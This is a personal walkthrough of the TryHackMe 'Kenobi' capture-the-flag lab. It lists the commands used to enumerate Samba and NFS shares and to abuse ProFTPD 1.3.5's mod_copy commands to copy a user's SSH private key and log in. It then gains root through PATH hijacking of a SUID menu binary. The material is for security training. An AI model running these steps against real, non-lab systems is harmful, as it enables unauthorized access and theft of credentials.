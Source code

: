 # Kenobi
## Exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.
https://tryhackme.com/room/kenobi#

### {TASK 1} Scan the machine with nmap, how many ports are open?
    nmap -sV 10.10.176.47

### {TASK 2} Enumerating Samba for Sahres
    Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.
    Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.176.47
    #3 shares found
    smbclient //10.10.176.47/anonymous
    #Asks for password but accepts null answer
    #log.txt seen on system
    smbget -R smb://10.10.176.47/anonymous
    #enter nothing for password and we get log.txt
    #info about ftp and ssh key is located inside file

    nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.176.47
    #gathering info about rpc
    #we see /var

### {TASK 3} Gain initial access via ProFtpd
      Get version #
        #from nmap scan earlier we see proFTPD 1.3.5
      searchsploit FTPD 1.3.5 
        #4 exploits shown
        http://www.proftpd.org/docs/contrib/mod_copy.html
          #The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.
          #We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 
      SITE CPFR /home/kenobi/.ssh/id_rsa
      SITE CPTO /var/tmp/id_rsa
      #copied his rsa keye to tmp
      mkdir /mnt/kenobiNFS
      mount machine_ip:/var /mnt/kenobiNFS
      ls -la /mnt/kenobiNFS
        #network mount to get rsa key
      cp /mnt/kenobiNFS/tmp/id_rsa .
      chmod 600 id_rsa
      ssh -i id_rsa kenobi@10.10.176.47
        #WERE IN
      grab user flag from user.txt
 
### {TASK 4} Priv Escalation with Path Variable Manipulation
     find / -perm -u=s -type f 2>/dev/null
      #what is /usr/bin/menu
      cd /tmp
      echo /bin/sh > curl
      chmod 777 curl
      export PATH=/tmp:$PATH
     /usr/bin/menu
       #option 1
         #id shows us as root
           #We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!


